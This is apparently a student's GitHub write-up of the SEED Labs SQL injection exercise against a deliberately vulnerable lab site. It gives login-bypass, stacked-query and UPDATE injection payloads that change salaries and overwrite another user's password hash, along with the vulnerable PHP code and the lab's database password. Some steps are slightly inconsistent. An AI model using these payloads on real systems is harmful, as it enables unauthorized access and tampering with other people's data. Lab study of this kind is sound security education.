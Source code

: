 # SQLinjection
### Task 1:
	Log in MYSQL:
//code
		mysql -u root -pseedubuntu
		mysql> use Users;
		mysql> show tables;
	Use such a SQL query:
//code
		select * from credential where Name='Alice';
https://github.com/ranapunjabi/SQLinjection/blob/main/task%201.png

### Task 2:
### --> Task 2.1
	.USERNAME: "Admin' #"
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
//code
		SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		FROM credential
		WHERE name='Admin' #' && password='xyz'
    https://github.com/ranapunjabi/SQLinjection/blob/main/task%202.1.png
### --> Task 2.2
	1- Write Code on Terminator in Seed Lab:
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	2- Copy the HTML code.
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
	4. Run this location on browser
https://github.com/ranapunjabi/SQLinjection/blob/main/task%202.2.png

### --> Task 2.3	
	inject statment to append a row to current database:
//code	
	INSERT INTO credential (name,eid) VALUES('Waleed', '17422');
	After row inserted, go to browser and input as:
	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Waleed','17422') #"
	.PASSWORD: "" (blank field)
https://github.com/ranapunjabi/SQLinjection/blob/main/task%202.3.png
(optional lines)
	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

### Task 3
EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

### --> Task 3.1
	1- Login as Username= 'Alice' && Password = xyz, 
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	3- Update Phone Number as ', Salary=1000000 and save.
### --> Task 3.2
	1- Login as Username= 'Boby' #' and then open edit profile
	2- Update Phone Number: ',Salary=0 and remaining unchanges
https://github.com/ranapunjabi/SQLinjection/blob/main/task%203.2.png
	Login as Alice
		Assume login as Boby and keep Alice login too. Open Alice profile edit
	Update Phone Number: ', Salary=1 where name='Boby' #
### --> Task 3.3
	We're login as Boby but change password of Alice
//backend code
	$conn = getDB();
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit();

Updation will be on Phone Number field;
Let Boby password as '123'. We must get SHA1 value of new password via some tool as:
	c0b656d5e415ca1a8e098a408f913ec229e120b6
Constuct Phone Number:
	', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
Save it and changes works accordingly. 
https://github.com/ranapunjabi/SQLinjection/blob/main/task%203.3.png
